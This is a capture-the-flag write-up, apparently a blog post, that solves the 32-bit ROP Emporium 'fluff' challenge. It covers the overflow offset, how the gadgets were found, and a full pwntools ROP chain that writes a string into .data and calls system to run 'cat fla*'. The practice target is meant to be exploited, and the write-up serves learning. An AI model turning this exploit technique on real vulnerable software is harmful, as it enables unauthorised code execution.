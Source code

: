 ```yaml
---
layout: post
title: ROP Emporium Challenge 5 - Fluff (32 bits)
excerpt_separator: <!--more-->
---
```


Description: *The concept here is identical to the write4 challenge. The only difference is we may struggle to find gadgets that will get the job done.*
<!--more-->

# fluff32

Link: https://ropemporium.com/challenge/fluff.html


------------------


## 1. Calculating EIP overwrite offset

First, we check the offset is still the same (44) sending 45 "A" characters:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/5_fluff32/images/Screenshot_1.jpg)



## 2. Studying the binary: write-what-where gadgets, XOR and XCHG operations

We will start looking for write-what-where primitives:

- 0x08048693 : mov dword ptr [ecx], edx ; pop ebp ; pop ebx ; xor byte ptr [ecx], bl ; ret


We can change EDX with:

- Set EBX value with        -> *0x080483e1: pop ebx; ret;* 

- EDX = 0   -> xor EDX, EDX -> *0x08048671: xor edx, edx; pop esi; mov ebp, 0xcafebabe; ret;*

- EDX = EBX -> xor EDX, EBX -> *0x0804867b: xor edx, ebx; pop ebp; mov edi, 0xdeadbabe; ret;*


We can change ECX with:

- Set EBX value with        -> *0x080483e1: pop ebx; ret;* 

- EDX = 0   -> xor EDX, EDX -> *0x08048671: xor edx, edx; pop esi; mov ebp, 0xcafebabe; ret;*

- EDX = EBX -> xor EDX, EBX -> *0x0804867b: xor edx, ebx; pop ebp; mov edi, 0xdeadbabe; ret;*

- ECX = EDX -> xchg EDX,ECX -> *0x08048689: xchg edx, ecx; pop ebp; mov edx, 0xdefaced0; ret;*




## 3. Creating the exploit

From [here](https://trustfoundry.net/basic-rop-techniques-and-tricks/), we know that *xchg will swap the contents of two registers*, so we can use it in the last step to swipe EDX and ECX, controlling the latter.

The idea is:

```
pop ebx ; ...; ret  # EBX = <.data address>
xor edx, edx        # EDX = 0
xor edx, ebx        # EDX = EBX
xcgh edx, ecx       # ECX = EDX = EBX = <.data address>

pop ebx ; ...; ret  # EBX = "/bin//sh"
xor edx, edx        # EDX = 0
xor edx, ebx        # EDX = EBX = "/bin//sh"

mov [ecx], edx      # Write "/bin//sh" in <.data address>

```


We will find the start address of .data with:

```
objdump -x fluff32
```

Knowing that **writable_memory = 0804a028** and that we will move that address to ECX and a string to EDX, the schema in our minds should be something like this for the write-what-where gadget:

```
mov <[register]>, <register>

mov [ecx], edx

mov [0x0804a028], "/bin"

mov [0x0804a028+4], "//sh"

```

The code for the ROP until now would be:

```
# EBX = <.data address>
rop += p32(pop_ebx) + p32(writable_memory)
# EDX = 0
rop += p32(xor_edxedx_pop_esi) + p32(garbage)
# EDX = EBX
rop += p32(xor_edxebx_popebp)  + p32(garbage)
# ECX = EDX = EBX = <.data address>
rop += p32(xchg_edxecx_popebp) + p32(garbage)

# EBX = "/bin"
rop += p32(pop_ebx) + "/bin"
# EDX = 0
rop += p32(xor_edxedx_pop_esi) + p32(garbage)
# EDX = EBX = "/bin//sh"
rop += p32(xor_edxebx_popebp)  + p32(garbage)

# Write "/bin" in <.data address>
rop += p32(writewhatwhere) + p32(garbage) + p32(garbage)


# EBX = <.data address>
rop += p32(pop_ebx) + p32(writable_memory+4) # writable memory + 4
# EDX = 0
rop += p32(xor_edxedx_pop_esi) + p32(garbage)
# EDX = EBX
rop += p32(xor_edxebx_popebp)  + p32(garbage)
# ECX = EDX = EBX = <.data address>
rop += p32(xchg_edxecx_popebp) + p32(garbage)

# EBX = "//sh"
rop += p32(pop_ebx) + "//sh"
# EDX = 0
rop += p32(xor_edxedx_pop_esi) + p32(garbage)
# EDX = EBX = "/bin//sh"
rop += p32(xor_edxebx_popebp)  + p32(garbage)

# Write "//sh" in <.data address>
rop += p32(writewhatwhere) + p32(garbage) + p32(garbage)

```

We will try this and see the first character of every 4 is not what we expected, the same that happened in the 64 bits version of this challenge. 

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/5_fluff32/images/Screenshot_2.jpg)

If we send "\x00bcd" and "\x00fgh" as strings instead of "/bin" and "//sh", we get this:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/5_fluff32/images/Screenshot_3.jpg)

As we can find in [the ascii table](http://www.asciitable.com/), the hexadecimal value of the character "b" is 0x62. 

At this point, we could add a new XOR gadget to change this value back to what we would expect by XORing it with 0x62, but we can also execute "cat fla\*" directly, given that the hexadecimal value of the first character "c", which is 0x63, can be obtained by XORing 0x62 and 0x01, and the hexadecimal value of the fifth character "f", which is 0x66, can be obtained by XORing 0x62 and 0x04.
So, sending the strings "\x01at " and "\x04la\*", we get this:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/5_fluff32/images/Screenshot_4.jpg)


However, checking the code we see this character changes due to the last part of the write-what-where primitive, which XORs the content of the address in ECX with the lower bytes of EBX (*xor byte ptr [ecx], bl*). And right before that, we have a *pop ebx*. So if we just change the value we send to EBX to 0x0, we can just execute any command without any unexpected character:

```
# Write "/bin" in <.data address>
rop += p32(writewhatwhere) + p32(garbage) + p32(0x0)
(...)
# Write "//sh" in <.data address>
rop += p32(writewhatwhere) + p32(garbage) + p32(0x0)
```

## 4. Final exploit


The final exploit code is:

```
from pwn import *

context(arch='i386', os='linux')
binary_name = 'fluff32'
p = process('./'+binary_name)
elf =  ELF(binary_name)
system = elf.sym["system"] 
exit = 0x80484e8
log.info("System address (.plt): " + hex(system))

# .data start address
writable_memory        = 0x0804a028
# 0x080483e1: pop ebx; ret; 
pop_ebx                = 0x080483e1
# 0x08048671: xor edx, edx; pop esi; mov ebp, 0xcafebabe; ret;
xor_edxedx_pop_esi     = 0x08048671
# 0x0804867b: xor edx, ebx; pop ebp; mov edi, 0xdeadbabe; ret;
xor_edxebx_popebp      = 0x0804867b
# 0x08048689: xchg edx, ecx; pop ebp; mov edx, 0xdefaced0; ret;
xchg_edxecx_popebp     = 0x08048689
# 0x08048693 : mov dword ptr [ecx], edx ; pop ebp ; pop ebx ; xor byte ptr [ecx], bl ; ret
writewhatwhere         = 0x08048693
garbage = 0xcaaacaaa

rop =  "A"*44
# EBX = <.data address>
rop += p32(pop_ebx) + p32(writable_memory)
# EDX = 0
rop += p32(xor_edxedx_pop_esi) + p32(garbage)
# EDX = EBX
rop += p32(xor_edxebx_popebp)  + p32(garbage)
# ECX = EDX = EBX = <.data address>
rop += p32(xchg_edxecx_popebp) + p32(garbage)

# EBX = "/bin"
rop += p32(pop_ebx) + "cat " #"/bin"
# EDX = 0
rop += p32(xor_edxedx_pop_esi) + p32(garbage)
# EDX = EBX = "/bin//sh"
rop += p32(xor_edxebx_popebp)  + p32(garbage)

# Write "/bin" in <.data address>
rop += p32(writewhatwhere) + p32(garbage) + p32(0x0)


# EBX = <.data address>
rop += p32(pop_ebx) + p32(writable_memory+4) # writable memory + 4
# EDX = 0
rop += p32(xor_edxedx_pop_esi) + p32(garbage)
# EDX = EBX
rop += p32(xor_edxebx_popebp)  + p32(garbage)
# ECX = EDX = EBX = <.data address>
rop += p32(xchg_edxecx_popebp) + p32(garbage)

# EBX = "//sh"
rop += p32(pop_ebx) + "fla*" #"//sh"
# EDX = 0
rop += p32(xor_edxedx_pop_esi) + p32(garbage)
# EDX = EBX = "/bin//sh"
rop += p32(xor_edxebx_popebp)  + p32(garbage)

# Write "//sh" in <.data address>
rop += p32(writewhatwhere) + p32(garbage) + p32(0x0)

rop += p32(system) + p32(exit) + p32(writable_memory)

p.recvuntil("> ")
p.send(rop)
p.interactive()
```